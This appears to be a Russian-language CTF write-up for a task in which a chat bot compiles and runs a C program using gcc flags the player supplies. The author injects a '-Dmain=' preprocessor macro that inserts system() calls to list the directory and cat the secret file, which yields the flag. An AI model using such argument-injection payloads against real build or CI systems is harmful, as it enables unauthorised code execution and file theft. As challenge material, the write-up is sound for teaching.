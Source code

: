 # Капибассейн

## Описание

> Теплый капибассейн — излюбленное место для отдыха горожан. В нем всегда поддерживается оптимальная температура. Недавно в капибассейн для красоты добавили фрукты юдзу.
> Они тут же закупорили термодатчики, и вода остыла.
>
> Помогите нашему инженеру и найдите ключ от термодатчиков, пока капибары не простудились!


## Решение

Заходит по ssh и попадаем в чат, где "Капинженер" просит ему помочь скомпилировать прогу:
`````c
<system> 'Капинженер' создал чат
<system> 'КапиСпасатель' вошёл в чат
<Капинженер> О ты пришёл! Я поменял термодатчит, но программа от предыдущего разработчика не компилируется!
<Капинженер> Помоги скомпилировать прогу, там чёт не хватает.
<Капинженер> У меня есть main.c файл:
```
#include "basin-control/lib.h"

#include <unistd.h>
#include <stdlib.h>

#define EXIT_ON_ERROR(exp) \
if ((exp) < 0) { \
    perror(# exp); \
    return -1; \
}

int main()
{
    EXIT_ON_ERROR(basic_control_init());
    EXIT_ON_ERROR(basic_control_auth("./secret.txt"));

    float good_capi_temperature = 23.5;
    EXIT_ON_ERROR(basic_control_set_water_heater_target_temp(good_capi_temperature));
    EXIT_ON_ERROR(basic_control_do_restart());

    float current_capi_temperature = basic_control_get_water_temp();
    while (current_capi_temperature < good_capi_temperature)
    {
        printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
        sleep(1);
        current_capi_temperature = basic_control_get_water_temp();
    }

    printf("Ура! t=%f °C! Капибары чилят\n", current_capi_temperature);

    return 0;
}
```
<Капинженер> Компилирую вот так: gcc main.c -std=c11 -L. -lbasin-control -o main
<Капинженер> И получаю такую ошибку:

main.c:8:5: error: implicit declaration of function 'perror' [-Wimplicit-function-declaration]
    8 |     perror(# exp); \
      |     ^~~~~~
main.c:14:5: note: in expansion of macro 'EXIT_ON_ERROR'
   14 |     EXIT_ON_ERROR(basic_control_init());
      |     ^~~~~~~~~~~~~
main.c:24:9: error: implicit declaration of function 'printf' [-Wimplicit-function-declaration]
   24 |         printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
      |         ^~~~~~
main.c:5:1: note: include '<stdio.h>' or provide a declaration of 'printf'
    4 | #include <stdlib.h>
  +++ |+#include <stdio.h>
    5 |
main.c:24:9: warning: incompatible implicit declaration of built-in function 'printf' [-Wbuiltin-declaration-mismatch]
   24 |         printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
      |         ^~~~~~
main.c:24:9: note: include '<stdio.h>' or provide a declaration of 'printf'
main.c:29:5: warning: incompatible implicit declaration of built-in function 'printf' [-Wbuiltin-declaration-mismatch]
   29 |     printf("Ура! t=%f °C! Капибары чилят\n", current_capi_temperature);
      |     ^~~~~~
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf'


<Капинженер> Чо сюда вставить: gcc main.c -std=c11 -L. -lbasin-control →???← -o main
<КапиСпасатель>
`````

Посмотрим на ошибку:
```sh
main.c:8:5: error: implicit declaration of function 'perror' [-Wimplicit-function-declaration]
    8 |     perror(# exp); \
...
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf
```

Чтобы скомпилировать надо заинклюдить `stdio.h`, через опции компилятора это сделать просто: `-include stdio.h`.

Отправляем:
```sh
<КапиСпасатель> -include stdio.h
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
invalid secret format: expected tctf{...}, got: 'the secret has been moved to new_secret.txt
'
basic_control_auth("./secret.txt"): Operation not permitted

<Капинженер> Блииин, похоже нужно new_secret.txt посмотреть!
```

Ага, получается прога скомпилировалась и запустилась, но чтобы спасти капибар надо открывать `new_secret.txt`, вероятно там же флаг.

Посмотрим что у нас есть, возможно у нас есть shell injection. Чтобы проверить укажем gcc подробный режим и вставим саб команду:
```
-v $(ls)
```

Получаем выхлоп:
```sh
<КапиСпасатель> -v $(ls)
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -v '$(ls)' -o main
...
COLLECT_GCC_OPTIONS='-std=c11' '-L.' '-v' '-o' 'main' '-mtune=generic' '-march=x86-64' '-dumpdir' 'main-'
```

Ага, значит наш ввод либо экранируется, либо здесь нет шелла.

Хорошо, а что делает бот:
1. Компилирует бинарь
2. Запускает бинарь

Получается, что если внедриться в сам исходных код, то выполнится наша команда!  
Как это сделать через командную строку компилятора? С помощью макросов препроцессора! 

1. Макросы работают по принципу подставки текста.  
2. Исполнение программы начинается с функции main. В её начало и будем внедряться.

Попробуем так:
```sh
-include stdio.h -Dmain='main(){system("ls"); return -1;} int kek'
```

Опа работает, получилось залистить диру:
```sh
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h '-Dmain=main(){system("ls"); return -1;} int kek' -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
basin-control
libbasin-control.a
main
main.c
new_secret.txt
secret.txt
```

Попробуем катнуть секрет так:
```sh
-include stdio.h -Dmain='main(){system("cat new_secret.txt"); return -1;} int kek'
```

И всё, получаем флаг:
```sh
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h '-Dmain=main(){system("cat new_secret.txt"); return -1;} int kek' -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
